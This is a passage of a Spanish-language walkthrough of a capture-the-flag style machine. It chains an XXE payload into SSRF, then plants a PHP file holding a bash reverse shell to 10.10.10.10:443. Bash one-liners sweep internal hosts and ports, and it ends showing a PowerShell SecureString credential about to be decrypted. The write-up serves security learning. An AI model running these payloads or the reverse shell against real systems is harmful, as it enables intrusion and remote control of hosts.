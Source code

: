 Bien, pues a través del **XXE** cuando intentamos tramitar la petición desde el propio servidor, vemos que si nos llega la petición que de antes no nos llegaba, esto gracias al **SSRF**:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.130/test"> ]>
<test>&xxe;</test>
```

Y vemos la petición en nuestro servidor:
![[Pasted image 20230812014922.png]]

Pues ahora la intrusión es bastante facil, simplemente creamos un archivo **.php** que contenga lo siguiente:
```
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'"); ?>
```

Apuntamos a nuestro archivo a través del **SSRF**, nos ponemos en escucha y nos deberia caer la **reverse shell**:
![[Pasted image 20230812015026.png]]

-------------
#### Host Discovery - Bash Scripting
Una vez dentro de la maquina, podemos crearnos un **script** en un **oneline** para ir descubriendo hosts que pertenezcan al mismo segmento de red de la interfaz **192.168.122.1**:
```
# for host in $(seq 1 254); do timeout 1 bash -c 'ping -c 1 192.168.122.$host' &>/dev/null && echo "[+] La IP esta activa -> 192.168.122.$host"&; done; wait
```

Y encontramos los siguientes hosts:
![[Pasted image 20230812020614.png]]

Si lanzamos un ping al **host** descubierto, podemos ver que se trata de una maquina windows gracias al **TTL** (suele ser 128):
![[Pasted image 20230812020633.png]]

------------
#### Port Discovery - Bash Scripting  
Ahora con el **Host** descubierto, vamos a enumerar los puertos existentes en este. Haremos lo mismo, un **oneliners** que nos descubra los hosts:
```
#for port in $(seq 1 65535); do timeout 1 bash -c "echo ' ' > /dev/tcp/192.168.122.228/$port" &>/dev/null && "[+] Puerto: $port -> OPEN"&; done;wait
```

Nos descrube el puerto **80** que es **HTTP** y el **5985** que pertence a el servicio de windows **Win-RM**:
![[Pasted image 20230812021425.png]]

------------
#### Decrypting PSCredential Password with PowerShell
Ahora que sabemos que esta abierto el servicio **Win-RM** solo nos queda encontrar credenciales validas que nos permita conectarnos a este. Si volvemos a la parte web, dentro del sitio web de **uploads** encontramos un archivo **.ps1** que contiene una credencial en formato **SecureString** propio de **PowerShell**:
```powershell
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
```